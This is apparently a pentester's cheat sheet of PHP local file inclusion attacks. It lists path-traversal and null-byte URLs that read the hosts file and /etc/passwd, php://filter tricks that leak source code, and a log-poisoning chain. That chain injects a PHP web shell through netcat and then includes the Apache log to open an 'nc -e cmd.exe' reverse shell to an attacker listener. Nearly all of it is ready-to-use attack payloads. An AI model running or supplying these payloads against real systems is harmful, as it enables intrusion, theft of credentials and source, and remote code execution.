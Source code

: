 #### Websites LFI (eg LANG files en.php, can we include/read a different file from url manipulation)

##### URL: Access files
`LANG=../../../../../../../windows/system32/drivers/etc/hosts`

##### URL: Fails with a warning .php file doesn’t exist. Add null-byte to void the php suffix
`LANG=../../../../../../../windows/system32/drivers/etc/hosts%00`

###### Contaminate files (logs) with php
Include directive will execute PHP code within the included files (Apache access logs)
```bash
nc -nv 10.11.15.54 80 
```

Input to the nc connection 
```php
<?php echo shell_exec($_GET['cmd']);?> 10mins=>err 400
```

Our php is in file system. Append `cmd` variable and command to URL string.
```bash
nc -nlvp 4444 # set up the listener
```
`http://10.11.15.54... &comment=b&cmd=nc -nv 10.11.0.160 4444 -e cmd.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00`

##### For LFI look for the include() function in PHP code.
```php
include("lang/".$_COOKIE['lang']); 
include($_GET['page'].".php");
```

##### LFI - Encode and Decode a file using base64
```bash
curl -s \ "http://$ip/?page=php://filter/convert.base64-encode/resource=index" \ | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
```

##### LFI - Download file with base 64 encoding
`http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php`

##### LFI - Download passwords file
`http://$ip/index.php?page=/etc/passwd`
`http://$ip/index.php?file=../../../../etc/passwd`

##### LFI - Download passwords file with filter evasion
`http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd`

##### LFI - In versions of PHP below 5.3 we can terminate with null byte
`GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00`
